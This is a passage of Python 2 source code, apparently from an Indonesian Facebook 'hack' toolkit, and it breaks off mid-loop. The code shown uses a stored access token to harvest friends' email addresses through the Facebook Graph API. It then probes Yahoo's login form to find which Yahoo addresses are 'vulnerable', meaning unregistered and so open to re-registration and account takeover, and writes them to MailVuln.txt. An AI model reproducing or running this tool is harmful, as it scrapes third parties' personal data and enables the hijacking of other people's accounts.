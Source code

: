 
def yahoo_pilih():
    go = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')
    if go == '':
        print '\x1b[1;91m[!] Jangan kosong'
        yahoo_pilih()
    else:
        if go == '1':
            yahoofriends()
        else:
            if go == '2':
                yahoolist()
            else:
                if go == '0':
                    menu_hack()
                else:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + go + ' \x1b[1;91mTidak ada'
                    yahoo_pilih()


def yahoofriends():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    mpsh = []
    jml = 0
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
    teman = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
    kimak = json.loads(teman.text)
    save = open('MailVuln.txt', 'w')
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    for w in kimak['data']:
        jml += 1
        mpsh.append(jml)
        id = w['id']
        nama = w['name']
        links = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
        z = json.loads(links.text)
        try:
            mail = z['email']
            yahoo = re.compile('@.*')
            otw = yahoo.search(mail).group()
            if 'yahoo.com' in otw:
                br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com')
                br._factory.is_html = True
                br.select_form(nr=0)
                br['username'] = mail
                klik = br.submit().read()
                jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
                try:
                    pek = jok.search(klik).group()
                except:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'
                    continue
